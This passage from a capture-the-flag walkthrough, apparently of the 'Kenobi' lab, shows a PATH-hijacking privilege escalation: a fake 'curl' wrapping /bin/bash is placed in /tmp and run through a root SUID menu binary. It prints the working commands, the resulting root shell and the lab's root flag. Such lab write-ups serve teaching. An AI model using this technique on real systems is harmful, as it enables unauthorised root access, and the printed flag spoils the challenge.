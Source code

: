 `3`

3. Strings is a command on Linux that looks for human readable strings on a binary.

![](https://i.imgur.com/toHFALv.png)

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root shell.

![](https://i.imgur.com/OfMkDhW.png)

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

```
kenobi@kenobi:~$ cd /tmp/
kenobi@kenobi:/tmp$ echo /bin/bash > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

4. What is the root flag (/root/root.txt)?

```
root@kenobi:/tmp# cat /root/root.txt 
177b3cd8562289f37382721c28381f02
```

`177b3cd8562289f37382721c28381f02`
